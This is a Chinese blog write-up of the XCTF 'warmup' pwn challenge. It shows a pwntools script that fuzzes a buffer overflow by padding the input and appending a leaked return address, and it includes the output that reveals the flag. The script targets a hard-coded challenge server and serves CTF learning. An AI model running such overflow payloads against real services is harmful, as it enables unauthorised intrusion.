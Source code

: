 <!--yml
category: 未分类
date: 2022-04-26 14:41:35
-->

# warmup [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列14_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103667987](https://blog.csdn.net/fastergohome/article/details/103667987)

题目地址：[warmup](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=5011&page=1)

这是高手进阶区的第三题，我们先看下题目内容

![](img/d84c17827d344c3b7f77e7b89075c757.png)这个题目没有附件，那就是要fuzz的题目了，我们先正常走一下程序看看

```
root@mypwn:/ctf/work/python/warmup# nc 111.198.29.45 32453
-Warm Up-
WOW:0x40060d
>AAA
```

这个题目的出发点就是要大家做fuzz，看下提示内容有个地址0x40060d，那就是说fuzz的时候要带上地址/或者不带地址。

先给出fuzz的函数

```
addr = 0x40060d
def send_fuzz(p, num, type):
	payload = 'A'*num
	if type == 1:
		payload += p32(addr)
	if type == 2:
		payload += p64(addr)
	p.sendlineafter('>', payload) 
```

这里分成3种类型：不带地址，带32位地址，带64位地址

根据fuzz函数，构造fuzz带python脚本：

```
#coding:utf8

from pwn import *
# context.log_level = 'debug'

addr = 0x40060d
def send_fuzz(p, num, type):
	payload = 'A'*num
	if type == 1:
		payload += p32(addr)
	if type == 2:
		payload += p64(addr)
	p.sendlineafter('>', payload)

def main():
	for i in range (0x100):
		for j in range(3):
			p = remote('111.198.29.45',32453)  
			try:
				send_fuzz(p, i+1, j)
				r = p.recv()
				print('recv::length='+ str(len(r)) +',content=\''+r+'\'\n')
				p.interactive()

			except:  
				p.close()

main() 
```

执行之后的结果如下：

```
[+] Opening connection to 111.198.29.45 on port 32453: Done
[*] Closed connection to 111.198.29.45 port 32453
[+] Opening connection to 111.198.29.45 on port 32453: Done
recv::length=45,content='cyberpeace{7421a9d170942e884abfb77547400b73}
'

[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
```

直接给我们返回了flag，这个题目的知识点主要是掌握如何对未知程序的简单fuzz过程。